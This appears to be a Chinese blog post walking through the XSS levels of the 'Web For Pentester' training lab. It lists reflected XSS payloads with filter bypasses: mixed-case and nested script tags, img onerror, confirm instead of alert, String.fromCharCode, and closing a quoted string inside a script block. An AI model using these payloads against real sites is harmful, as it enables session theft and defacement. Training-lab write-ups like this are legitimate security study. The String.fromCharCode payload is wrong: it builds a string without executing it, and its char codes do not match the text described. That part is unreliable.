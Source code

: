 ```yaml
---
layout:     post
title:      "Web For Pentester - XSS Part Tips"
subtitle:   "Training exercises"
date:       2016-10-30
author:     "Urahara"
header-img: "img/Couchdb-RCE.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - Training exercises
---
```



### XSS Example 1
直接输出无任何过滤：
** name=\<script>alert(/XSS/)\</script> **
### XSS Example 2
过滤掉了\<script>标签，通过大小写进行绕过：
** name=\<Script>alert(/XSS/)\</Script> **
### XSS Example 3
过滤了\<script>标签（包括大写），但只过滤了一次，通过嵌套标签来绕过filter表达式：
**name=\<s\<Script>cript>alert(/XSS/)\</sc\</Script>ript>**
### XSS Example 4
使用\<script>标签测试直接显示error，替换\<img>、\<svg>等标签测试成功：
**name=\<img src=1 onerror="alert(/XSS/)">**
### XSS Example 5
alert被过滤，但prompt、confirm函数可使用；这里同样可以使用String.fromCharCode来绕过
**name=\<img src=1 onerror="confirm(/XSS/)">**
> 绕过magic_quotes_gpc
> magic_quotes_gpc=ON是php中的安全设置，开启后会把一些特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\
> 比如：\<script>alert("xss");\</script>会转换为<script>alert(\"xss\");</script>,这样我们的xss就不生效了。
> 针对开启了magic_quotes_gpc的网站，我们可以通过javascript中的String.fromCharCode方法来绕过，我们可以把alert(/XSS/);转换为
> String.fromCharCode(97, 108, 101, 114, 116, 40, 47, 88, 83, 83, 47, 41)那么我们的XSS语句就变成了
> **\<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)\</script>** 
> String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串，在harkbar中的XSS功能中有这个功能可直接使用
### XSS Example 6
F12查看元素，发现输出在script标签中$a="\<img  src="1" onerror="alert(‘bb‘)">"

输出在script标签中的情况要首先闭合双引号"

name=fdf";alert($a);//
